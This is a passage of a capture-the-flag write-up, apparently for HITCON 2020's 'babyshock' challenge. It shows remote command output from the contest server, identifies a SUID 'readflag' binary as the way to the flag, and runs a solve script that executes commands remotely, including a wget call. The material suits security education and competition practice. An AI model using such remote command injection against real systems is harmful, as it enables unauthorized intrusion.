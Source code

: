 ```
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
total 4194516
-rwx------    1 root root       2538 Nov 28 08:10 babyshock2020.py
-rwx------    1 root root       2496 Nov 28 08:09 babyshock2020.py~
drwxr-xr-x    2 root root       4096 Oct 26 17:27 bin
drwxr-xr-x    3 root root       4096 Oct 26 17:32 boot
drwxr-xr-x   15 root root       3120 Nov 28 21:49 dev
drwxr-xr-x   90 root root       4096 Nov 28 06:36 etc
-r--------    1 root root         32 Nov 28 05:10 flag
d-wx-wx-wt    3 root root      61440 Nov 29 20:56 history
d-wx-wx-wt 1103 root root      36864 Nov 29 20:56 hitcon
drwxr-xr-x    5 root root       4096 Nov 28 04:47 home
lrwxrwxrwx    1 root root         30 Oct 26 17:32 initrd.img -> boot/initrd.img-5.4.0-1029-aws
lrwxrwxrwx    1 root root         30 Oct 26 17:32 initrd.img.old -> boot/initrd.img-5.4.0-1029-aws
drwxr-xr-x   20 root root       4096 Nov 28 05:11 lib
drwxr-xr-x    2 root root       4096 Nov 28 05:11 lib64
drwx------    2 root root      16384 Oct 26 17:29 lost+found
drwxr-xr-x    2 root root       4096 Oct 26 17:24 media
drwxr-xr-x    2 root root       4096 Oct 26 17:24 mnt
drwxr-xr-x    2 root root       4096 Oct 26 17:24 opt
dr-xr-xr-x  132 root root          0 Nov 28 21:49 proc
-rwsr-sr-x    1 root root       8440 Nov 28 05:11 readflag
drwx------    6 root root       4096 Nov 28 15:02 root
drwxr-xr-x   24 root root        900 Nov 29 09:23 run
drwxr-xr-x    2 root root       4096 Oct 26 17:27 sbin
drwxr-xr-x    6 root root       4096 Nov 28 13:40 snap
drwxr-xr-x    2 root root       4096 Oct 26 17:24 srv
-rw-------    1 root root 4294967296 Nov 29 06:30 swap
dr-xr-xr-x   13 root root          0 Nov 28 21:49 sys
drwxrwxrwt   12 root root       4096 Nov 29 19:27 tmp
drwxr-xr-x   10 root root       4096 Oct 26 17:24 usr
drwxr-xr-x   13 root root       4096 Oct 26 17:27 var
lrwxrwxrwx    1 root root         27 Oct 26 17:32 vmlinuz -> boot/vmlinuz-5.4.0-1029-aws
lrwxrwxrwx    1 root root         27 Oct 26 17:32 vmlinuz.old -> boot/vmlinuz-5.4.0-1029-aws
```

We're most interested in these two entries:
```
-r--------    1 root root         32 Nov 28 05:10 flag
-rwsr-sr-x    1 root root       8440 Nov 28 05:11 readflag
```

`readflag` has the SUID and SGID bit set, so running it should give us the flag.
Now all we have to do is run the script again to execute it:
```
$ python3 solve.py "/readflag" remote
--2020-11-29 16:12:59--  http://hitcon.org/
Resolving hitcon.org (hitcon.org)... 172.67.200.105, 104.27.175.104, 104.27.174.104, ...
Connecting to hitcon.org (hitcon.org)|172.67.200.105|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://hitcon.org/2020/ [following]
--2020-11-29 16:13:00--  https://hitcon.org/2020/
Connecting to hitcon.org (hitcon.org)|172.67.200.105|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘index.html’

```